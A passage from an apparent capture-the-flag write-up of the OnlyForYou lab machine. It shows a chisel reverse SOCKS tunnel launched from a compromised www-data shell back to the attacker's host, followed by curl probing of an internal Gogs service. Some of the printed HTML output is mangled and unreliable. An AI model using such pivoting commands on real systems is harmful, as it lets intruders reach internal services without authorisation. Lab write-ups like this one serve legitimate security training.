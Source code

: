 On OnlyForYou, I'll run it in client mode:



    www-data@only4you:/dev/shm$ ./chisel_1.8.1_linux_amd64 client 10.10.14.6:8000 R:socks



The connection reaches the server:



    2023/04/24 14:26:27 server: session#1: tun: proxy#R:127.0.0.1:1080=>socks: Listening



I'll set up FoxyProxy to use this:

![](/img/image-20230424142926227.png)

#### Gogs - TCP 3000

The service on port 3000 is Gogs, a opensource Git solution:



    www-data@only4you:/$ curl localhost:3000
    <!DOCTYPE.md>
    .md>                                              
    <head data-suburl="">
            <meta http-equiv="Content-Type" content="text.md; charset=UTF-8" />
            <meta http-equiv="X-UA-Compatible" content="IE=edge"/>

                    <meta name="author" content="Gogs" />
                    <meta name="description" content="Gogs is a painless self-hosted Git service" />
                    <meta name="keywords" content="go, git, self-hosted, gogs">
    ...[snip]...



Loading it in Firefox shows the Gogs page:
